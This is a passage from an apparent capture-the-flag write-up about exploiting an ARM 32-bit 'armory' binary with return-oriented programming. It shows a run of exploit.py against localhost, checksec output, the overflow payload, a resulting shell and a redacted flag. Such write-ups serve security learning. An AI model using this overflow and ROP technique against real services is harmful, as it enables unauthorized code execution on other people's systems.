 Then we can exploit the remote service using ROP !
```bash
python3 exploit.py rop  -b ./armory localhost 4000
Exploiting with ROP
[*] '/path/to/armory'
    Arch:       arm-32-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x10000)
    Stripped:   No
[+] Opening connection to localhost on port 4000: Done
[*] Switching to interactive mode
Hello, what's your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x80\x03\x01!
$ cat flag
ECSC{__REDACTED__}
```

One remaining issue is that we cannot call `exit` or `abort` at the end of our exploit because the last gadget is making the program crash by branching to an invalid address.
